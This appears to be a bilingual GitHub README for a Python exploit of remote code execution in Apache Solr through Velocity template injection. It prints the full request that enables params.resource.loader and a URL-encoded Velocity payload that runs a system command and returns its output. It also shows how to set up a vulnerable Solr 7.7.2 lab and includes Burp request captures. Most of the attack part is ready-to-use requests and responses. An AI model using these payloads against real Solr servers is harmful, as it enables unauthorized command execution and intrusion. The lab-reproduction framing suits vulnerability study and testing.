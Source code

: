 # Apache Solr RCE via Velocity template

## python usage:

`python solr_rce.py http://192.168.5.86:8983 command`


![](./solr-rce.jpg)

## Attack start


1. Set `params.resource.loader.enabled` as true.

```
Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================
```

2. RCE via velocity template

```
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
```
## 0x01 solr简介

Solr是Apache Lucene项目的开源企业搜索平台。
其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成，以及富文本的处理。
2019年10月30日，国外安全研究人员放出了一个关于solr 模板注入的exp，攻击者通过未授权访问solr服务器，发送特定的数据包开启params.resource.loader.enabled，然后get访问接口导致服务器命令执行，命令回显结果在response，于是本地搭建漏洞环境复现一下。

## 0x02 漏洞环境搭建

`https://www.apache.org/dyn/closer.lua/lucene/solr/7.7.2`

`https://mirrors.tuna.tsinghua.edu.cn/apache/lucene/solr/7.7.2/solr-7.7.2.zip`

#### velocity.solr.resource.loader.enabled:true

`/opt/solr-7.7.2/example/example-DIH/solr/atom/conf/solrconfig.xml`

```
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf# cat solrconfig.xml | grep enable
    <enableLazyFieldLoading>true</enableLazyFieldLoading>
    <str name="solr.resource.loader.enabled">${velocity.solr.resource.loader.enabled:true}</str>
    <str name="params.resource.loader.enabled">${velocity.params.resource.loader.enabled:false}</str>
root@kali:/opt/solr-7.7.2/example/example-DIH/solr/atom/conf#
```
#### 开启dih 示例

`./solr -e dih -force`

```
root@kali:/opt/solr-7.7.2/bin# ./solr -e dih -force
*** [WARN] *** Your open file limit is currently 1024.
 It should be set to 65000 to avoid operational disruption.
 If you no longer wish to see this warning, set SOLR_ULIMIT_CHECKS to false in your profile or solr.in.sh

Starting up Solr on port 8983 using command:
"/opt/solr-7.7.2/bin/solr" start -p 8983 -s "/opt/solr-7.7.2/example/example-DIH/solr" -force

Waiting up to 180 seconds to see Solr running on port 8983 [\]
Started Solr server on port 8983 (pid=20222). Happy searching!


Solr dih example launched successfully. Direct your Web browser to http://localhost:8983/solr to visit the Solr Admin UI
root@kali:/opt/solr-7.7.2/bin#
```
#### 浏览器访问 

`http://10.10.20.166:8983/solr/#/`

![](./solr-8983.jpg)

到此，漏洞环境搭建完成。

## 利用Burpsuite 发包

由于我们修改的atom目录下的配置文件，所以我们只能拿这个存在配置缺陷的接口来攻击

`http://10.10.20.166:8983/solr/atom/config`

![](./atom.jpg)

#### BurpSuite request
```
POST /solr/atom/config HTTP/1.1
Host: 10.10.20.166:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 259
Connection: close
Upgrade-Insecure-Requests: 1

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

#### BurpSuite response
```
HTTP/1.1 200 OK
Connection: close
Content-Type: application/json;charset=utf-8
Content-Length: 149

{
  "responseHeader":{
    "status":0,
    "QTime":554},
  "WARNING":"This response format is experimental.  It is likely to change in the future."}

```


## 参考链接：

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt

